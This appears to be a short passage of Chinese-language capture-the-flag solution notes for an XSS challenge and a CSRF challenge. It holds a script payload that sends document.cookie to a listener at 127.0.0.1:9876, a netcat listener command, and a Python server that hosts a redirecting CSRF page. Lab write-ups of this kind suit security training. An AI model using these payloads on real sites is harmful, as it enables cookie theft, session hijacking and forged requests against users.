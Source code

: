 我没有使用fecth。



# 22-XSS-7

就是带着cookie发送请求过去

xss

```js
<script>
    fetch("http://127.0.0.1:9876", {
        method: "POST",
        body: document.cookie,
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        }
    });
</script>

```

nc

```
nc -lvp 9876
```





# 23-CSRF-1



```python
from http.server import SimpleHTTPRequestHandler, HTTPServer

class CSRFHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            # 将字符串转换为字节对象
            self.wfile.write("""
                <html>
                  <body>
                    <h1>CSRF Attack in Progress</h1>
                    <script>
                        // 自动跳转到目标站点
                        window.location.href = "http://challenge.localhost/publish";
                    </script>
                  </body>
                </html>
            """.encode())  # .encode() 将字符串转换为字节对象

server = HTTPServer(("0.0.0.0", 1337), CSRFHandler)
print("CSRF attack server running at http://hacker.localhost:1337/")
server.serve_forever()
```
